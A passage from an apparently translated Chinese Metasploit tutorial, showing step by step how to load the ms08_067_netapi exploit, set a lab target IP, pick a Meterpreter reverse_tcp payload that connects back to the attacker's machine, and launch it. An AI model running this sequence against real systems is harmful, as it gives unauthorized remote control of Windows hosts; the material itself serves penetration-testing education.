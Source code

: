 ![Features of Metasploit](img/5664OT_03_17.jpg)

让我们选择`exploit`模块中的`ms08_067_netapi`模块，其排名为`great`。要激活此模块，请在控制台上传递以下命令：

```
msf > use exploit/windows/smb/ms08_067_netapi

```

这会将控制台提示更改为`exploit`模块，表示您的`exploit`模块已全部设置为执行。

现在，我们的下一步是将所需的参数值传递给`exploit`模块。`show options`命令显示所需参数。

这里需要传递`RHOST`值。`RHOST`是我们要瞄准的远程主机。

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102

```

设置`exploit`模块后，下一步是选择`PAYLOAD`。让我们按如下方式使用流量计有效载荷：

```
msf exploit(ms08_067_netapi) >set PAYLOAD windows/meterpreter/reverse_tcp

```

一旦选择了`meterpreter`有效载荷，我们现在需要传递有效载荷参数值。再次传递`show options`命令以查看所需参数。传递 LHOST IP，这是攻击机器的 IP。

现在，我们都已准备好启动漏洞利用。传递`exploit`命令，将`exploit`模块发送到目标机器。

![Features of Metasploit](img/5664OT_03_20.jpg)
